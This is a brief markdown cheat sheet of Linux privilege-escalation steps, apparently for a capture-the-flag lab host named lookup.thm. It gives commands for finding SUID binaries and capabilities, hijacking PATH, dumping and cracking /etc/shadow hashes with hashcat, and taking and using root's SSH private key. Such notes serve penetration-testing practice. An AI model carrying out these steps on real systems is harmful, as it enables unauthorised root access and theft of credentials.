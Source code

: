# Check what current user can run as sudo 
- `sudo -l`
- [gtfobins](https://gtfobins.github.io/)

# Find files that have SUID or SGID bits set.  
`find / -type f -perm -04000 -ls 2>/dev/null`

# Can we increase the privilege level of a process or binary with “Capabilities”? 
`getcap -r / 2>/dev/null`  

# Modify path? 
Add folders to PATH:  
```
export PATH=/tmp:$PATH
Create a root bash script: echo "/bin/bash" > thm
```

# Do we have access to /etc/password and /etc/shadow ? 

If we have write access, just create our own priv user, if not.

## hashcat the password hash? 

`unshadow /etc/passwd /etc/shadow > hashes.txt`

## Work out hash type e.g If it's $6$, it's SHA-512, $5$ is SHA-256, $1$ is MD5.
* https://hashcat.net/wiki/doku.php?id=example_hashes
* https://hashes.com/en/tools/hash_identifier
* https://www.kali.org/tools/hash-identifier/
## Run Hashcat (for SHA-512, mode 1800):

`hashcat -m 1800 hashes.txt wordlist.txt`

# Privilege Escalation tools
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- LinEnum: https://github.com/rebootuser/LinEnum
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
- Linux Priv Checker: [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

# Steal root / users ssh key? 

/root/.ssh/id_rsa

make sure to change permission to 600 once we have it,
chmod 600 id_rsa

ssh -i id_rsa root@lookup.thm

# File search

Search for log and txt files with string e.g tyler
```
find / -type f \( -name "*.txt*" -o -name "*.log*" \) -exec timeout 10s grep -i 'tyler' {} + 2>/dev/null | more
```